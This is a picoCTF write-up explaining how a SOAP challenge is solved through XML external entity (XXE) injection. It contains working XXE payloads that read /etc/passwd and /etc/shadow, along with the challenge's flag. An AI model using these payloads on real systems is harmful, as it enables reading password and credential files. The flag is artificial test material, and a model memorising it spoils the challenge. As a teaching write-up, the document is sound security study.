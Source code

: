 ![Task desc](../assets/images/SOAP_image_1.png)

This task involves injecting XXE.


> [!NOTE]
> **XXE** – vulnerability that involves inserting malicious XML entities into code on a website that works with XML.


The web application has 3 buttons, each of which sends a POST request to the server when clicked. It can be seen `Inspect → Network → Click button`:  

![image_2](../assets/images/SOAP_image_2.gif)


An XML code is sent to the server, into which we can perform an XXE injection. 

I googled “XXE payload to read /etc/passwd” and on [HackTricks](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html) found a good example of such payload.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE func [<!ENTITY readflag SYSTEM "/etc/passwd"> ]>
<data><ID>&readflag;</ID></data>
```


Let's examine the payload structure in more detail:

- `<?xml version="1.0" encoding="UTF-8"?>` : standard XML document declaration. It is already present in POST requests from buttons.

- `<!DOCTYPE func [...]>` : *Document Type Definition*. The entities will be listed here.

- `<!ENTITY readflag SYSTEM "/etc/passwd">` : This is the external entity `SYSTEM`. External entities are needed to read content from outside the XML document. In our case from `/etc/passwd` file on server.

- `readflag` — is the name of the external entity and, at the same time, a placeholder where content from `/etc/passwd` will be inserted. 

- For substitution in tags `<data><ID></ID></data>` placeholder:  `&readflag;`


 Simplified structure looks like:


```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root[
<!ENTITY itsname1 SYSTEM "/external/content">
<!ENTITY itsname2 ...>
...
]>
<data>
    <ID>
	&itsname1;
    </ID>
</data>
```


 
A more complex example of declaring entities for reading Linux server system files: \



```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE root[
<!ENTITY passwd	SYSTEM "/etc/passwd">
<!ENTITY hosts SYSTEM "/etc/hosts">
<!ENTITY shadow SYSTEM "/etc/shadow">
]>
<data>
    <users>&passwd;</users>
    <network>&hosts;</network>
    <secrets>&shadow;</secrets>
</data>
```


So, with DTD we declare an external entity (actually a variable with the contents of `/etc/passwd`) which we will insert into the XML document itself.


![image_3](../assets/images/SOAP_image_3.gif)


`picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`
